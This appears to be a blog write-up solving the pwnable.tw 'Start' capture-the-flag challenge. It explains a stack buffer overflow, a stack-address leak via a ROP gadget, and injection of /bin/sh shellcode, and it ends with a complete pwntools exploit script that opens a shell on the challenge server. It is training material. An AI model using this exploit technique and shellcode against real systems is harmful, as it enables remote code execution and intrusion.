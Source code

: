 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file (I only use it for open IDA correctly). Now we should open disassembler like IDA Pro.
![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)

We have two funcion: `_start` and `_exit`.
As you can see, it firsts push esp, and push address `_exit` fuction, then push 5 times hex numbers. If you look closer by convert it to string, that's the string "Let's start the CTF:" at the beginning of the program. 

_**`int 80` is a system call in Linux, you can read it more at [here](http://asm.sourceforge.net/syscall.html).
It depends on the number before to make a move. E.g: the number before first instruction `int 80` at `0804808F` is 4, it means [sys_write](http://asm.sourceforge.net/syscall.html#4); the number before the second is 3, it is [sys_read](http://asm.sourceforge.net/syscall.html#3).**_

The program lets you type 60 bytes, but it only accepts 20 bytes. Therefore, you can see maybe it has buffer overflow here.

First payload I use buffer overflow to make it returns to ROP gadget (0x08048087).

{: .box-note}
**Note:** Payload 1: "aaaaaaaaaaaaaaaaaaaa\x87\x80\x04\x08"

And then it will print out esp address in stack. Having that address, I can put the shellcode into that.
When comes the `retn;` instruction, ESP is pointing to address has 0x08048087, so next EIP is 0x08048087.



\[About shellcode] You can find shellcode at [here](http://shell-storm.org/shellcode/). For me, I use [this](http://shell-storm.org/shellcode/files/shellcode-752.php).


{: .box-note}
**Note:** Payload 2: 'A' * 20 + p32(esp_add + 20) + shellcode

If you are wondering why in payload (maybe only me, so sad) `esp_add + 20`, it's because that where shellcode is. Why is 20? The program will do this instruction: `add esp 14h`.

Source code for pwn:
{% highlight python linenos %}
from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  esp_add = u32(esp_add[0:4])

  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)

  conn.interactive()
  conn.close()
{% endhighlight %}




